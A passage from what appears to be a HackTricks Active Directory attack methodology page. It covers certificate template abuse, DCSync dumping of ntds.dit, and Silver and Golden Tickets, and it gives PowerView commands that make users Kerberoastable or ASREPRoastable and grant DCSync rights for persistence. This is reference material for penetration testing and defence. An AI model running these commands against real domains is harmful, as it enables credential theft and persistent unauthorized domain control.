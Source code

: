 ### Certificate Templates Abuse

If **vulnerable templates** are configured it's possible to abuse them to escalate privileges:

{{#ref}}
ad-certificates/domain-escalation.md
{{#endref}}

## Post-exploitation with high privilege account

### Dumping Domain Credentials

Once you get **Domain Admin** or even better **Enterprise Admin** privileges, you can **dump** the **domain database**: _ntds.dit_.

[**More information about DCSync attack can be found here**](dcsync.md).

[**More information about how to steal the NTDS.dit can be found here**](https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/active-directory-methodology/broken-reference/README.md)

### Privesc as Persistence

Some of the techniques discussed before can be used for persistence.\
For example you could:

- Make users vulnerable to [**Kerberoast**](kerberoast.md)

  ```powershell
  Set-DomainObject -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}r
  ```

- Make users vulnerable to [**ASREPRoast**](asreproast.md)

  ```powershell
  Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
  ```

- Grant [**DCSync**](#dcsync) privileges to a user

  ```powershell
  Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync
  ```

### Silver Ticket

The **Silver Ticket attack** creates a **legitimate Ticket Granting Service (TGS) ticket** for a specific service by using the **NTLM hash** (for instance, the **hash of the PC account**). This method is employed to **access the service privileges**.

{{#ref}}
silver-ticket.md
{{#endref}}

### Golden Ticket
